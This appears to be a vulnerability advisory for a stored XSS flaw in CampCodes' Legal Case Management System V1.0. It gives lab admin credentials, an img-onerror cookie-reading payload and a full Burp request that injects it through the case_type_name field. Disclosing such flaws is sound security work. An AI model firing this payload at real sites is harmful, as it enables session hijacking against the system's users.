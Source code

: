 ## Legal Case Management System

## XSS on `/admin/case-type`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/case-type
```

The parameter `case_type_name` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/case-type HTTP/1.1
Host: 192.168.150.131
Content-Length: 418
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryng2URRlpRpThmd3E
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/case-type
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InlkbjdNODVsNWVOMGdrRTkyR3V1QXc9PSIsInZhbHVlIjoiNjNpZWU1NjJtYzhkWFJMNlwvRHVpbXM0MkpneVA4dnpjcllhQk5zWUxBS055a3dzQkgzdDN4cmZPcVlGQlRVcTgiLCJtYWMiOiJkOWZlMjgxOWJmYTYzOWVhODhmYjJlMjJlZjllNDBmMDlhNDMxNmI3MWZlYTU2ZGYxN2M5ZjNmYjk5ZDBiY2MwIn0%3D; test_session=eyJpdiI6InZSM0FVQU9RRUxXTkx5SkgrRHVJTFE9PSIsInZhbHVlIjoicmlMZXhNdDI3WWJWRUYySUVxc05DQVkyaklhNFh0UWxmVkdIbUlnblNXbTltS0lLcDRsbEU2SThqTzdRcmEyVSIsIm1hYyI6IjFiMjc0YTI2N2NkMWIzYWQ2YmVmNzYzZjU4NzA2NGJhNTAzYTZkYzJmODU3ZjIxNjEwMjNjMjBmZjIxMjAzMTAifQ%3D%3D
Connection: close

------WebKitFormBoundaryng2URRlpRpThmd3E
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundaryng2URRlpRpThmd3E
Content-Disposition: form-data; name="case_type"


------WebKitFormBoundaryng2URRlpRpThmd3E
Content-Disposition: form-data; name="case_type_name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundaryng2URRlpRpThmd3E--

```

### Screenshot

![image-20240509195753854](./screenshot/image-20240509195753854.png)
